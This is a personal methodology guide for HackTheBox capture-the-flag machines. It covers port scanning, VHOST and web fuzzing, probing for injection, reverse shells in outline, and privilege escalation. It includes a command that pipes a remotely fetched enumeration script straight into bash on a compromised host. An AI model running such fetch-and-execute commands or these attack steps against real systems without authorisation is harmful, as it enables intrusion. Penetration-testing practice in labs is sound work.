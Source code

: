 #### *DISCLAIMER: I'm a software engineer and by no means a trained pen-tester, this is just my approach and collected notes. I do not claim to know what I'm doing. It's probably not the best approach, but it's recorded here as a starting point and mostly for my own reference. Feel free to PR any improvements!* 

# My HackTheBox Machine Challenge Approach

First of all, if you haven't yet signed up or connected to the HTB VPN, check out [this guide first](GETTING_STARTED.md).

## Phase 1: Enumeration

The starting point for a machine challenge is always a single IP address. That being all the information we have, the first stage is - quite sensibly - about gathering information. The pen-testing world calls this stage *enumeration*. 

IMO, the most important thing we can do in this process is take good notes. Make a record of everything we find, whether it be versions of software running, ports open, usernames spotted, interesting files - whatever it is, write it down, we don't know how useful it'll be later in the process.

So, we can *enumerate* in a number of ways...

### Port Scanning/Service Enumeration

The first thing we want to know is what the host is exposing to us - are there services running that we can exploit? We can try to work this out with an initial port scan. The following scan will attempt to expose open ports along with the services and service versions running on those ports:

```bash
nmap -sC -sV -O [TARGET]
```

Writing the scan results to disk is also a good idea so we can reference them later without having to rescan. Whilst the above is a good starting point, we may also want to run some more advanced scans, such as checking UDP ports. 

This will hopefully give us some information about at least one open port/service. We should record the list of services/versions for later use. Additionally, we can check to see if these versions have known vulnerabilities using [Exploit DB](https://www.exploit-db.com/). If they are, what prerequisites would we need to exploit them? And what would each exploit gain us?

### HTTP Enumeration

If the host is running a web server, there are a few methods for gathering further information. First of all, let's hit the web server in our browser. Is it running a known web application? Is the application open-source? Are there [known vulnerabilities](https://www.exploit-db.com/)? Is is a custom app?

#### VHOST Enumeration

The server may be configured to only serve certain files for one or more given VHOSTs. For example `10.10.10.10` may serve an ecommerce site when we hit it using `shop.somehost.htb`, and a blog site via `blog.somehost.htb`. There are a few ways to spot these.

First of all, if the server is using HTTPS, we could check out the SSL certificate - it may list multiple subdomains the certificate is valid for:

```bash
nmap -p 443 --script ssl-cert [TARGET]
```

Second, we can check the output of error pages. Often we will see a hostname mentioned in the output, even when we're accessing it via IP. 

Third, we can use a VHOST fuzzer. I'll shamelessly plug [scout](https://github.com/liamg/scout) here, but many other (likely better) fuzzers are available:

```bash
scout vhost somehost.htb
```

Finally, we can watch out for mention of VHOSTs in our other enumeration, especially in config files, source code etc.

Once we've found a VHOST, we can add it to our `/etc/hosts` and check it out in our browser.

We can then apply the HTTP fuzzing section to any VHOSTs we discovered.

#### HTTP Fuzzing

In order to discover files and directories that are initially hidden from us, we can use a web fuzzer. [gobuster](https://github.com/OJ/gobuster) and [wfuzz](https://tools.kali.org/web-applications/wfuzz) are pretty cool, and again I'll shamelessly plug my own attempt: [scout](https://github.com/liamg/scout).

What these tools do is fire a huge amount of requests for paths which may exist, and attempt to identify those that do exist by such identifiers as differing status codes, varying content lengths, etc.

Scout also does a couple of extra checks like checking for "backed up" files (like the VIM style `index.php~`.)

```bash
scout url http://target.htb
```

#### Manual HTTP Exploration

There's a whole bunch of further exploration to be done here, such as:
 
 - Checking page source code for mention of further URLs, VHOSTs, systems etc.
 - Any mention of human users - such as an "About Us" page on a company website - perhaps we can use this to guess usernames later - especially if email addresses are included.
 - Looking for product/company names etc. - these can be added to wordlists for fuzzing etc.
 - Look at query parameters being used - what format are they? Could they be vulnerable to SQL/other injection attacks? What if we switch parameters out for different formats/values?
 - Check out any cookies that have been dropped - especially after registration/login flows. Are any cookies base 64 encoded and a multiple of 16 bytes long - checkout [pax](https://github.com/liamg/pax)? Can we tweak cookie values? Is there an injection attack available here?
 - Examine headers - any mention of interesting/vulnerable services?

### Enumeration of other services

There's obviously a whole bunch of other services that could be running here, and it would take forever to mention all of them, but we generally want to connect to each and see what we can find out. For example, connect to an FTP server and see what access we have anonymously, what software and version it is running etc. Is there an old exploitable version of OpenSSH running? Enumerate everything! 

## Phase 2: Take stock

Before we go running down rabbit holes, it's a good idea to take a look at the information we've gathered so far and plan out our next steps. Note all potential areas of attack, and for all potential avenues we should ask what looks exploitable and what advantage would it give us? When we attempt each we'll note success/failure reasons, along with any new avenues that we discovered. If we discover a new resource (e.g. VHOST), we should go back to the enumeration stage and start again with it.

If an exploitation route isn't jumping out at this stage, it's time to go back and enumerate some more, or take some time to read up on the services/technologies you've discovered so far. 99% of this process is information gathering.

## Phase 3: Exploitation

By following this process we should eventually be able to exploit a vulnerability and (usually) gain a shell. 

For common vulnerabilities we can [use metasploit](https://www.ceos3c.com/hacking/metasploit-tutorial-the-complete-beginner-guide/) to exploit them, but I find it's often more educational, satisfying (and sometimes more reliable!) to craft my own exploits for the specific scenario.

One common method of gaining a shell is by exploiting a remote command execution (RCE) vuln and starting a [reverse shell](https://resources.infosecinstitute.com/icmp-reverse-shell/#gref). We essentially start a listener on our machine, then execute a command on the target machine which starts a shell that is bound back to our listener.

The first thing we can do when we gain a shell is check to see if the user we're identified as has the `~/user.txt` that we seek for the first challenge goal. If so, let's paste the contents into the "user" part of the challenge on the HTB site for our first points!

## Phase 4: More Enumeration

Once we have a shell, the next stage is some more heavy enumeration. There are so many potentially interesting things to spot here, so it's best to start with an enumeration script and go from there:

```bash
curl -s https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
``` 

The above script will spit out any potentially interesting anomalies to look into, but is by no means comprehensive. Any finds here should be referred back to phase 1 onward before continuing.

## Phase 5: Privilege Escalation

There are myriad ways to escalate privileges on our way to root. A good starting point is always [GTFOBins](https://gtfobins.github.io/). If we've enumerated heavily enough the escalation will usually make itself known to us by reading through our notes at this point.

Eventually we should be able to escalate to root access and `cat ~/root.txt`. Job done!

Getting stuck at any phase just means we have to go back to phase 1 and work our way through again with any new information we've gathered. Most challenges will require looping through this process many times before the elusive root is gained.

## Resources

Check out this [list of resources](RESOURCES.md) for further information.

## Stuck?

The following are things you can try:

- Enumerate more
- Enumerate harder
- Enumerate again
- Enumerate better
